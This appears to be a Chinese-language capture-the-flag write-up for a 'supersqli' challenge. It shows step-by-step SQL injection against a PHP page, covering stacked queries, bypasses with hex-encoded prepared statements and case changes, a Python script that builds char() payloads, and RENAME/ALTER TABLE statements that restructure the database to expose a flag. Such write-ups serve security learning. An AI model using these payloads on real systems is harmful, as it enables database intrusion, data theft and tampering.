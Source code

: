 ## supersqli

试一下注入

```html
?inject=?inject=1' or '1'='1
```

返回

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

array(2) {
  [0]=>
  string(6) "114514"
  [1]=>
  string(2) "ys"
}
```

看了存在注入点

试一下注入

```
?inject=1' union select database()#
```

显示

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

看了是过滤了select|update|delete|drop|insert|where，这怎么搞。。。。

看了大佬的博客，发现了堆叠注入这一操作

试一下

```
?inject=1';show databases;#
```

返回

```
array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}
```

show tables返回两张表

```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

存在堆叠注入

利用

```
@t=(sql 查询语句的hex值);prepare x from @t;execute x;#
```

bypass进行堆叠注入

```python
python
>>> import binascii
>>> binascii.b2a_hex("select * from supersqli.1919810931114514")
'73656c656374202a2066726f6d20737570657273716c692e31393139383130393331313134353134'
```

可得

```
payload=?inject=1';set @t=0x73656c656374202a2066726f6d20737570657273716c692e31393139383130393331313134353134;Prepare x from @t;Execute x;#
```

有一个坑点是题目用strstr对prepare和excute做了过滤，但是可以通过改变大小写来bypass

第二种方法是利用chr()拼接bypass

可以利用python写个脚本跑一跑

```python
payload = "1';set @s=concat(%s);PREPARE a FROM @s;EXECUTE a;"
exp = "select flag from `1919810931114514`"
res = ''
for i in exp:
	res += "char(%s),"%(ord(i))
encode_payload = payload%(res[:-1])
print encode_payload
```

第三种方法是利用堆叠注入把1919810931114514这个表重命名为word，然后查询的时候就可直接查到这个表了

```
payload=1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;show columns from words;#
```

### 参考资料：

堆叠注入：https://www.cnblogs.com/0nth3way/articles/7128189.html

两种解法：[https://blog.zeddyu.info/2019/06/04/2019qwb/#%E9%9A%8F%E4%BE%BF%E6%B3%A8](https://blog.zeddyu.info/2019/06/04/2019qwb/#随便注)

char的解法:[https://skysec.top/2019/05/25/2019-%E5%BC%BA%E7%BD%91%E6%9D%AFonline-Web-Writeup/#%E9%9A%8F%E4%BE%BF%E6%B3%A8](https://skysec.top/2019/05/25/2019-%E5%BC%BA%E7%BD%91%E6%9D%AFonline-Web-Writeup/#%E9%9A%8F%E4%BE%BF%E6%B3%A8)